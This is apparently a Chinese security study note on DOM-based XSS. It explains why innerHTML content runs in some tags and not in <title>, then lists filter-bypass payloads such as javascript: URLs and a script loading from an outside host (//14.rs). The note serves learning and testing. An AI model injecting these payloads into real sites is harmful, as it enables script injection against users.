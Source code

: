 
打开poc1.html

通过浏览器的开发者工具 查看经过DOM解析(javascript执行后)的页面代码:
```html
<html><head></head>
<body>
<a id="a"><img src="@" onerror="alert(1)"></a>
<title id="b">&lt;img src=@ onerror=alert(2) /&gt;</title>
<div id="c"><img src="@" onerror="alert(3)"></div>

<script>
document.getElementById("a").innerHTML="<img src=@ onerror=alert(1) />";
document.getElementById("b").innerHTML="<img src=@ onerror=alert(2) />";
document.getElementById("c").innerHTML="<img src=@ onerror=alert(3) />";
</script>
</body>
</html>
```

发现 弹出`alert(3)` `alert(1)`(无顺序) 而没有`alert(2)` 原因如下:

**以下这些HTML标签** 比较特殊, 浏览器会把这些标签中的内容作为 **文本** 解析(而不会当作html代码进行解析).

具体实现就是对内容做了`Html实体(Html Entity)`编码).

所以当使用`.innerHTML`把内容写进以下这些HTML标签中时, 浏览器不会把其中内容作为 **html** 解析.

```html
<textarea>
<title>
<iframe>
<noscript>
<noframes>
<xmp>
<plaintext>
...
```


### XSS payload 变形

* 参考
  * [s0md3v/AwesomeXSS](https://github.com/s0md3v/AwesomeXSS#awesome-bypassing)
  * [MyPapers/Bypassing-XSS-detection-mechanisms](https://github.com/s0md3v/MyPapers/tree/master/Bypassing-XSS-detection-mechanisms)


* 注意
  * 以下这些Payload 大多数在Chrome 76.0.3809.132下测试成功，无法执行的已标注
  * 以下这些Payload 都没有用到single quotes(') 或 double quotes (")

- Without event handlers - 不用"事件处理属性"(event handler attribute)
```
# 用object标签的data属性 属性值为javascript:
# 这个payload在Chrome 76.0.3809.132下无法执行
<object data=javascript:confirm()>

# 用a标签的href属性 属性值为javascript:
<a href=javascript:confirm()>click here

# 用script的src属性 
<script src=//14.rs></script>

# 直接 函数名
<script>confirm()</script>
```
